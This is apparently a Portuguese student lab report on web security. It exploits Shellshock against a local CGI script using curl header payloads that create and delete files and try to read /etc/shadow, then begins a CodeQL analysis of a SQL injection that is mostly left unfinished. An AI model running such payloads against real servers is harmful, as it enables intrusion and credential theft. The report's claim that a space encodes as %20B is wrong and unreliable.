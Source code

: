 # Module 2

-------


# Parte A

## Exercise 2
### Ponto a) 
    curl -H "ATTACK:() {echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"touch /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

![alt text](parte1_ex2_a_1.png "Código com espaços")

### Ponto b)
    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/rm /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"rm /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

![alt text](parte1_ex2_b_1.png "Código com espaços")

### Ponto c)
Para testar, tentou-se ler primeiro um ficheiro "ficheiro2" com texto no seu conteudo, através do código abaixo:

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /tmp/ficheiro2" localhost:8080/cgi-bin/vul.cgi

Depois, correu-se o mesmo código para o ficheiro pretendido

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" localhost:8080/cgi-bin/vul.cgi

A figura abaixo apresenta os resultados.

![alt text](parte1_ex2_c_1.png "Código com espaços")

Como se pode observar, o primeiro ficheiro tinha dados e os mesmos foram impressos na linha de comandos.
No segundo código, nada foi apresentado.
Para garantir que o ficheiro tinha conteudo, abriu-se o docker em modo interativo e fez-se o cat desse mesmo ficheiro, como mostra a imagem abaixo.

![alt text](parte1_ex2_c_2.png "Código com espaços")

Para também se entender as permissões de leitura e escrita deste ficheiro, correu-se um código para obter o USER atual, e outro para obter as permissões do ficheiro.

![alt text](parte1_ex2_c_3.png "Código com espaços")

O que se pode observar é que o ficheiro necessita de permissões de root, mas o apache corre numa conta de user e não como root.



### Ponto d)
Não porque uma web url não aceita espaços, como no exemplo da figura abaixo, em que foi corrido o seguinte código:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm /tmp/ficheiro

![alt text](parte1_ex2_d_1.png "Código com espaços")

Como podemos observar, os espaços são ignorados, e o sistema apenas lê o que está antes dos espaços.

Para tal, necessitamos de converter o espaço num código, sendo o espaço representado pelo código %20B.
Assim, o código fica:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm%20B/tmp/ficheiro

O resultado é apresentado na figura abaixo.
![alt text](parte1_ex2_d_2.png "Código com espaços")

O problema neste caso é que o bash não converte este código num espaço literal.

Pelas razões acima referidas e como foi possivel observar, não é possivel fazer o ataque através dos parâmetros.



# Parte B

## Static analysis

### Ponto 2
Neste ponto 
Verificar a Github Action para correr a plataforma CWE analytics do CodeQL é executada quando há um evento de push no repositório. Nos sub pontos a e b o CodeQL irá ser atualizado ao mudar a descrição do Workflow.
#### a)
Nas imagens abaixo é possivel verificar as alterações da versão de action 1 para a versão 2:

![alt text](parte2_ex_2_a_1.jpeg "Código com espaços")

![alt text](parte2_ex_2_a_2.jpeg "Código com espaços")


#### b)
Nas imagens abaixo é possivel verificar a adição do código do workflow trigger.

![alt text](parte2_ex_2_b_1.jpeg "Código com espaços")

![alt text](parte2_ex_2_b_2.jpeg "Código com espaços")


### Ponto 3

Após executar a action e analisar os logs de output foi encontrado o comando da imagem abaixo utilizado pelo CodeQL Action para inicializar a base de dados de code analysis. 

![alt text](parte2_ex3.png "Código com espaços")


### Ponto 4

Neste ponto irá ser explorada a vulnerabilidade CWE-89. No code scanning da security está presente uma listagem das diferentes vulnerabilidades detetadas na aplicação com nível decrescente de vulnerabilidade. 

Como se pode observar na imagem seguinte foi pesquisada a entrada “Database query built from user-controlled sources” que apresenta uma lista de diversos ficheiros. 

![alt text](parte2_ex4_1.jpeg "Código com espaços")

O ficheiro que iremos explorar é denominado search.ts 

![alt text](parte2_ex4_2.jpeg "Código com espaços")


![alt text](parte2_ex4_3.jpeg "Código com espaços")
<center>Image caption</center>


<br>

Justify why CodeQL identified this code
as vulnerable. Include source and sink information. (more information about SQL Injection can
be found here https


### Ponto 5


## Dynamic analysis

### Ponto 6
![alt text](parte2_ex6.png "Código com espaços")


### Ponto 7
![alt text](parte2_ex7.png "Código com espaços")




### Ponto 8
![alt text](parte2_ex8_1.png "Código com espaços")

![alt text](parte2_ex8_2.png "Código com espaços")


### Ponto 9
#### a)

#### b)


### Ponto 10


### Ponto 11


### Ponto 12


### Ponto 13


### Ponto 14

